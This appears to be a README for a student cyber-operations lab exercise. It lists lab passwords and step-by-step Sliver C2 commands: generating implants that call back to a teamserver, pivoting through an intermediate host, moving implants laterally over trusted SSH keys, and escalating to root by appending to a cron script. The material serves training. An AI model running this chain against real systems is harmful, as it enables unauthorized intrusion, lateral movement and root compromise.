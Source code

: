 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

PW to both the Main Profiles: `monkey`
PW to aevergreendesktop: `password`
PW to aevergreen: `temple435`

Commands used:
1. Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`
2. Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')
3. Run Implant: `./[Implant Name] &`
4. View sessions: `sessions`
5. Use the Implant: `use [session number]`
6. Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`
7. Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`
8. Upload that implant to his desktop with the upload command (More blendy than another SCP): `upload ./[Pivot Implant Name in Local Directory] ./[Pivot Implant Name in Remote Directory]`
9. Use our implant to scp it over to the Final Server: `execute -o scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (His desktop is trusted because of the scp keys so there is no need for a password)`
10. Navigate to the tmp directory and see what is in one of the root_cron_job files: `execute -o cat root_cron_job_1.sh`
11. Append our file path to one of the cron job scripts in order to privilage escalate: `execute -o /bin/bash -c 'echo "/home/aeverwood/Documents/uhoh" >> /tmp/root_cron_job_1.sh'` The execute command is 'command [arguments]' meaning append doesn't work, so we need to use the -c flag to run it in a /bin/bash shell
